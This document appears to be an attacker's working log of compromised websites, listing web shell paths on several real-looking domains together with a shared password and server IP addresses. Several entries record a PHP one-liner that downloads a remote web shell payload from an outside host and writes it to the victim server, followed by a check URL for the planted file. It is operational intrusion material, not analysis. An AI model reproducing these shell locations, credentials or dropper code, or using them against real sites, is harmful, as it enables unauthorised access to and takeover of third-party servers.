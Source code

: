 http://fw.dkjx.cn/images/image.php |mmk123 |  106.54.62.234
代码更新：0608 ✅
http://fw.dkjx.cn/_private/httpd.php
<?php file_put_contents("../images/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fw.dkjx.cn/images/httpd.php?d=up

http://en.jinruimould.com/static/upload/image/20220101/3m.php |mmk123 |rsa | 128.1.134.225 | 连接不上
http://en.jinruimould.com/core/function/2m12.php |mmk123 |rsa | 128.1.134.225
http://e.himin.com/runtime/upgrade/core/extend/ueditor/themes/default/font/2m12.php |mmk123 |  120.27.14.20
http://epc.himin.com/e/css/images/1m12.php |mmk123 |  120.27.14.20
代码更新：0608 ✅
http://epc.himin.com/guolu/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://epc.himin.com/css/httpd.php?d=up

http://kepu.himin.com/1m12.php |mmk123 |  120.27.14.20
http://himin.com//static/upload/image/20190508/1m12.php |mmk123 |  120.27.14.20

http://ztjfcd.com/css/admin/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://ztjfcd.com/img/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://ztjfcd.com/css/httpd.php?d=up

http://zanghongqu.com/template/zy/swiper-4.3.5/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://zanghongqu.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://zanghongqu.com/config/httpd.php?d=up

http://sdxy-uav.com/template/cglx/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://sdxy-uav.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://sdxy-uav.com/config/httpd.php?d=up

http://scshugao.com/template/shugao/font-awesome-4.7.0/css/3m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://scshugao.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://scshugao.com/config/httpd.php?d=up
